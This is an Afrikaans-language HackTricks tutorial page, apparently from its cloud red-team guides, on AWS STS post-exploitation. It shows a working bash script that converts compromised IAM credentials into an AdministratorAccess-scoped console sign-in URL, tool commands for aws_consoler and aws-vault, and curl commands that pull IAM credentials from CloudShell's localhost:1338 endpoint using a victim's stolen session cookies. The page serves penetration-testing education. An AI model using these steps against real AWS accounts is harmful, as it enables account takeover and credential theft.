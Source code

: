 # AWS - STS Post Exploitation

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Vir meer inligting:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### Van IAM Krediete na Konsol

As jy daarin geslaag het om 'n paar IAM krediete te verkry, mag jy belangstel om **toegang tot die webkonsol** te verkry met behulp van die volgende gereedskap.\
Let daarop dat die gebruiker/rol die toestemming **`sts:GetFederationToken`** moet hê.

#### Pasgemaakte skrip

Die volgende skrip sal die standaard profiel en 'n standaard AWS ligging (nie gov en nie cn) gebruik om vir jou 'n geskrewe URL te gee wat jy kan gebruik om in te log in die webkonsol:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Jy kan **'n webkonsole skakel genereer** met [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Verseker dat die IAM-gebruiker `sts:GetFederationToken` toestemming het, of verskaf 'n rol om aan te neem.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) is 'n hulpmiddel om AWS-akkrediteerings veilig te stoor en toegang daartoe te verkry in 'n ontwikkelingsomgewing.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Jy kan ook **aws-vault** gebruik om 'n **blaaier-konsolesessie** te verkry.
{% endhint %}

#### Van Konsol na IAM Krediete

[**Oorspronklik ontdek in hierdie pos**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), As jy daarin slaag om toegang tot 'n webkonsol te kompromitteer (miskien het jy koekies gesteel en kon nie toegang tot die .aws-gids kry nie), kan jy 'n paar IAM-tokenkrediete vir daardie gebruiker verkry deur middel van **CloudShell**.

CloudShell stel IAM-krediete bloot via 'n **on gedokumenteerde eindpunt op poort 1338**. Nadat jy sessiekoekies van die slagoffer in jou blaaier gelaai het, kan jy na CloudShell navigeer en die volgende opdragte gee om IAM-krediete te verkry.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
